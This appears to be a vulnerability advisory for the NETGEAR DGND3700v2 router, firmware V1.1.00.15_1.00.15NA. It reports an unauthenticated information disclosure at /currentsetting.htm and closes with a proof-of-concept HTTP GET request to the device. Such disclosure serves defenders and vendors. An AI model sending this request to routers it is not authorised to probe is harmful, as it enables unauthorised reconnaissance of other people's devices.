


# Overview

- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://kb.netgear.com/23510/DGND3700v2-Firmware-Version-1-1-00-15-NA-Users

# Affected version

DGND3700v2 V1.1.00.15_1.00.15NA

# Vulnerability description

A sensitive information disclosure vulnerability exists in the NETGEAR DGND3700v2 router (firmware V1.1.00.15_1.00.15NA), where the unauthenticated endpoint `/currentsetting.htm` exposes internal device data, including firmware version, model, region tag, internet connection status, etc. 

# Vulnerability details

mini_http is a lightweight HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 

Netgear uses mini_http to handle HTTP requests, when accessing currentsetting.htm, the global variable dword_41EF20 is set to 1, marking this page as a special page.

  

# Poc

```http
GET /currentsetting.htm HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: */*
Referer: http://192.168.1.1/401_access_denied.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

  
